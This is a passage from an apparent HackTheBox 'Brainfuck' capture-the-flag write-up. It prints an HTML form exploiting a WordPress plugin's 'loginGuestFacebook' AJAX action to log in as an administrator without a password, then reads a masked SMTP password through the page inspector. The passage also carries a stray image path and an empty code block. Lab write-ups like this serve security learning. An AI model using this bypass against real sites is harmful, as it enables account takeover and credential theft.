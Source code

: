 ```bash
```

Immediately I searched if there is any exploit available for this Plugin and found a good match

> [https://www.exploit-db.com/exploits/41006](https://www.exploit-db.com/exploits/41006)

So According to the exploit due to incorrect  usage of `wp_set_auth_cookie` we can login without the password.

```html
root@kali:~/CTF/HTB/Boxes/Brainfuck# cat ticket.html 
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

First I tried with `administrator` 

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%203.png)

And refresh the main page and Im logged in as `Administrator`, but nothing seems interesting here.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%204.png)

I tried same with user `admin` now I got something different.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%205.png)

I went into the settings and found the `SMTP` plugin while checking that, I got the password of the same user `orestis` we got from the certificate.
Eventhough the password is masked by inspecting the element of that I can see the password.
![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%206.png)
